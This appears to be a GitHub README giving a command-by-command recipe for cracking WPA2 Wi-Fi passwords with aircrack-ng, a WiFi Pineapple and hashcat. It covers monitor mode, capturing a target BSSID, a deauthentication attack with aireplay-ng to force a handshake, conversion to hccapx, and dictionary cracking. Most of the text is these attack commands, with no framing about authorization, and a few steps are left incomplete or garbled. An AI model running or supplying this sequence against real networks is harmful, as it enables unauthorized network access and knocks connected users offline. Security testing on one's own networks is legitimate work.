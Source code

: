 # Crack_WPA2-WiFi_Pineapple_CLI
Cracking WPA2 using Aircrack-ng through WiFi Pineapple MKVII CLI

### Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`
- WiFi Pineapple MKVII (or any other WiFi Adapter. TIP:Whenever you’re choosing an external Wi-Fi adapter, make sure that it supports both 2.4Ghz and 5Ghz band.

My setup
![Setup](Images/Setup.jpg)

### Terminal-1
  1. Detect your wireless network interface
     Run:
<pre lang="markdown">iwconfig</pre>
![Setup](Images/iwconfig.png)

  2. If interface not in monitor mode Run:
<pre lang="markdown">airmon-ng start &lt;interface&gt;</pre>
![Setup](Images/start_Interface.png)

  3. Capture traffic
<pre lang="markdown">airodump-ng &lt;interface&gt</pre>

  4. To set WiFi Pineapple at 5GHz Run:     
<pre lang="markdown">airmon-ng &lt;interface&gt channel 48;</pre>

  5. Capture traffic at 5GHz
  5. 


<pre lang="markdown">
sudo apt install aircrack-ng hashcat -y
</pre>

<pre lang="markdown">
ifconfig
</pre>

<pre lang="markdown">
/sbin/ifconfig
</pre>

<pre lang="markdown">
sudo airmon-ng start wlp3s0
</pre>

<pre lang="markdown">
sudo airodump-ng wlp3s0mon
</pre>

<pre lang="markdown">
sudo airodump-ng --bssid 00:11:22:33:44:55 -c 10 --write capture wlp3s0mon
</pre>

<pre lang="markdown">
sudo aireplay-ng --deauth 10 -a 00:11:22:33:44:55 wlp3s0mon
</pre>

<pre lang="markdown">
gcc cap2hccapx.c -o cap2hccapx
</pre>

<pre lang="markdown">
./cap2hccapx capture-01.cap capture.hccapx
</pre>

<pre lang="markdown">
hashcat -I
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt
</pre>

<pre lang="markdown">
hashcat -m 2500 capture.hccapx dictionary.txt --show
</pre>
